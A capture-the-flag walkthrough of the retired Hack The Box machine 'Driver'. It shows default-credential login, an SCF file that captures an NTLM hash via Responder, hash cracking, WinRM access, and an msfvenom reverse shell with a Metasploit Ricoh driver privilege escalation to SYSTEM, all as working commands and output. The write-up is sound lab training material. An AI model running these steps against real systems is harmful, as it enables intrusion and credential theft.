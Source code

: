 # Driver

This is the write-up for the box Driver that got retired at the 26th February 2022.
My IP address was 10.10.14.2 while I did this.

Let's put this in our hosts file:
```markdown
10.10.11.106    driver.htb
```

## Enumeration

Starting with a Nmap scan:

```
nmap -sC -sV -o nmap/driver.nmap 10.10.11.106
```

```
PORT    STATE SERVICE      VERSION
80/tcp  open  http         Microsoft IIS httpd 10.0
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| http-auth:
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=MFP Firmware Update Center. Please enter password for admin
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
135/tcp open  msrpc        Microsoft Windows RPC
445/tcp open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
Service Info: Host: DRIVER; OS: Windows; CPE: cpe:/o:microsoft:windows
```

## Checking HTTP (Port 80)

The website prompts for _Basic Authentication_ credentials and after trying some default credentials, the username _admin_ and the same password grants access to the page.

The title of the website is _"MFP Firmware Update Center"_ and there is an image of a printer and several menu buttons:

![Printer Access](driver_web-1.png)

The menu _"Firmware Updates"_ forwards to _fw_up.php_ and allows to upload firmware and explains that it will be manually reviewed:
```
Select printer model and upload the respective firmware update to our file share. Our testing team will review the uploads manually and initiates the testing soon.
```

This sounds like a Social Engineering attack to upload a malicious file to gather sensitive information.
A [SCF File Attack](https://www.ired.team/offensive-security/initial-access/t1187-forced-authentication#execution-via-.scf) can be used to authenticate the user and send their NTLM hash to our client.

Creating SCF file:
```
[Shell]
Command=2
IconFile=\\10.10.14.2\share\test
[Taskbar]
Command=ToggleDesktop
```

Starting **Responder** to gain the NTLM hash:
```
responder -I tun0
```

After uploading and submitting the SCF file on the website, the **Responder** intercepts the NTLM hash for the user _tony_:
```
[SMB] NTLMv2-SSP Client   : 10.10.11.106
[SMB] NTLMv2-SSP Username : DRIVER\tony
[SMB] NTLMv2-SSP Hash     : tony::DRIVER:dc0d5b20ca7576b3:AADBA5C9F6C62F76853487EBA04D8190:010100000000000000A4199(...)
```

Cracking the NTLMv2 hash with **Hashcat**:
```
hashcat -m 5600 driver_tony.hash /usr/share/wordlists/rockyou.txt
```

After a while it gets cracked and the password for the user is:
> liltony

## Checking SMB (Port 445)

With this user account it is possible to enumerate the SMB service on the box:
```
crackmapexec smb 10.10.11.106 -u tony -p liltony --shares
```

There are no shares with permissions for the user, so lets check if **WinRM** access is possible:
```
crackmapexec winrm 10.10.11.106 -u tony -p liltony

WINRM       10.10.11.106    5985   DRIVER           [+] DRIVER\tony:liltony (Pwn3d!)
```

The service seems to be enabled and [Evil-WinRM](https://github.com/Hackplayers/evil-winrm) can be used to login to the box:
```
evil-winrm -i 10.10.11.106 -u tony -p liltony
```

## Privilege Escalation

To get an attack surface on the box, it is recommended to run any **Windows Enumeration Script** like [winPEAS](https://github.com/carlospolop/PEASS-ng).

There is a **PowerShell** history file which shows that a printer was added:
```
type "C:\Users\tony\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt"
```
```
Add-Printer -PrinterName "RICOH_PCL6" -DriverName 'RICOH PCL6 UniversalDriver V4.23' -PortName 'lpt1:'
```

The printer driver **Ricoh v4.23** has a publicly known Privilege Escalation vulnerability [CVE-2019-19363](https://www.pentagrid.ch/de/blog/local-privilege-escalation-in-ricoh-printer-drivers-for-windows-cve-2019-19363/).

As described in the article, all files in the installation directory can be written by every user:
```
icacls "c:\ProgramData\RICOH_DRV\RICOH PCL6 UniversalDriver V4.23\_common\dlz\*.dll"
```

To exploit the vulnerability, I will use **Metasploit** and for that I have to start a **Meterpreter** session.

Creating reverse shell payload with **Msfvenom**:
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.2 LPORT=9001 -f exe -o msf.exe
```

Starting the listener on **Metasploit**:
```
msf6 > use exploit/multi/handler

msf6 exploit(multi/handler) > set LHOST tun0
msf6 exploit(multi/handler) > set LPORT 9001
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp

msf6 exploit(multi/handler) > run
```

Executing the payload on the box:
```
*Evil-WinRM* PS C:\ProgramData> .\msf.exe
```

Now a **Meterpreter** session is started and should be migrated to another persistent process:
```
meterpreter > ps
(...)
5076  2620  OneDrive.exe   x86   1    DRIVER\tony  C:\Users\tony\AppData\Local\Microsoft\OneDrive\OneDrive.exe
```
```
meterpreter > migrate 5076
[*] Migrating from 4464 to 5076...
[*] Migration completed successfully.

meterpreter > background
```

Exploiting the printer vulnerability:
```
msf6 > use exploit/windows/local/ricoh_driver_privesc

msf6 exploit(windows/local/ricoh_driver_privesc) > set payload windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/local/ricoh_driver_privesc) > set SESSION 1
msf6 exploit(windows/local/ricoh_driver_privesc) > set LHOST tun0

msf6 exploit(windows/local/ricoh_driver_privesc) > run
```

Listing sessions to check if the exploit worked:
```
msf6 exploit(windows/local/ricoh_driver_privesc) > sessions -l

Active sessions
===============
  Id  Name  Type                     Information                   Connection
  --  ----  ----                     -----------                   ----------
  1         meterpreter x86/windows  DRIVER\tony @ DRIVER          10.10.14.2:9001 -> 10.10.11.106:49431 (10.10.11.106)
  2         meterpreter x64/windows  NT AUTHORITY\SYSTEM @ DRIVER  10.10.14.2:4444 -> 10.10.11.106:49432 (10.10.11.106)
```

Interacting with the privileged session:
```
msf6 exploit(windows/local/ricoh_driver_privesc) > sessions -i 2
```

The vulnerability was successfully exploited and started a **Meterpreter** session as the SYSTEM user!
